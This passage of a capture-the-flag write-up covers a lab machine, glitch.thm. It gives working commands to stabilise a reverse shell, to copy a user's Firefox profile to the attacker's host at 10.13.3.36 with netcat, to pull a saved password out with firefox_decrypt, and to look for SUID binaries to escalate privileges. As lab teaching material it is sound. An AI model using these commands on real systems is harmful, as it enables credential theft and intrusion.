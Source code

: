 Hit CTRL-z to send the connection to the background. They foreground it again.
```bash
stty raw -echo;fg
```

Then I started looking around the machine. I saw that there was a `.firefox` folder in the user's home directory. Those often contains passwords that can be extracted with [Firefox Decrypt](https://github.com/Unode/firefox_decrypt).

I compressed the folder and downloaded it to my machine using [netcat](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/).

On the receiving machine run this command to wait for the connection and save the data to a file.
```bash
nc -l -p 1234 > ffProfile.tar.gz
```

On the sending machine, open the connection and send the file.
```bash
nc -w 3 10.13.3.36 1234 < ffProfile.tar.gz 
```

Then I used Firefox Decrypt to extract the password from the Firefox profile after decompressing it.
```bash
$ python firefox_decrypt.py .firefox/b5w4643p.default-release/
2021-05-18 11:04:55,237 - WARNING - profile.ini not found in .firefox/b5w4643p.default-release/
2021-05-18 11:04:55,237 - WARNING - Continuing and assuming '.firefox/b5w4643p.default-release/' is a profile location

Master Password for profile .firefox/b5w4643p.default-release/: 
2021-05-18 11:04:58,388 - WARNING - Attempting decryption with no Master Password

Website:   https://glitch.thm
Username: 'v0id'
Password: 'V0ID_PASSWORD'
```

I then used that password to change to the v0id user.

```bash
$ su v0id
Password: 

v0id@ubuntu:/home/user$ whoami
v0id
```

## Escalate to root

The v0id user cannot run sudo and has no crontab. I searched for files with suid permissions. 

```bash
v0id@ubuntu:~$ find / -perm /u=s 2>/dev/null
...
/usr/local/bin/doas


/usr/local/bin/doas
usage: doas [-nSs] [-a style] [-C config] [-u user] command [args]
```
